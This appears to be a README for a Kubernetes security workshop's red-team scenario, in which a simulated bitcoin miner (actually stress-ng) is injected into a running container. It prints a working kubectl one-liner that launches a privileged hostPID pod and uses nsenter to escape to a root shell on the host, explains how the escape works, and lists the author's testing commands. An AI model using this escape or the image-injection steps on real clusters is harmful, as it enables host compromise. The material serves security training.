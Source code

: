 # Bitcoin injector

For Scenario 3, the Red team will modify the running container to inject their bitcoinero binary into the existing container.

This directory has the files to support this:

* moneymomeymoney - This is the "bitcoin miner" which is actually stress-ng
* run-bitcoin-injector.sh - This is the script which is run inside the insecure-app container to kick-off the process.  
* inject-image.sh - Performs the image pull, modification and push

## Black magic behind the script

Using a [neat trick from Twitter](https://x.com/mauilion/status/1129468485480751104), let's attempt to deploy a container that gives us full host access:

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Let's unpack this a little bit: The kubectl run gets us a pod with a container, but the --overrides argument makes it special.

First we see "hostPID": true, which breaks down the most fundamental isolation of containers, letting us see all processes as if we were on the host.

Next, we use the nsenter command to switch to a different mount namespace. Which one? Whichever one init (pid 1) is running in, since that's guaranteed to be the host mount namespace! The result is similar to doing a HostPath mount and chroot-ing into it, but this works at a lower level, breaking down the mount namespace isolation completely. The privileged security context is necessary to prevent a permissions error accessing /proc/1/ns/mnt.

## Testing of this script

To test this, there was a lot of back and forth testing.  Here are some frequest commands I ran
```
az acr repository delete -n $ACR_NAME --image insecure-app:latest -y
az acr import -n $ACR_NAME --source docker.io/lastcoolnameleft/insecure-app:latest --image insecure-app:latest
kubectl delete deployment insecure-app
kubectl apply -k ./workshop/manifests
scp workshop/bitcoin-injector/inject-image.sh lcnl:lastcoolnameleft.com/mini
scp workshop/bitcoin-injector/run-bitcoin-injector.sh lcnl:lastcoolnameleft.com/mini
```
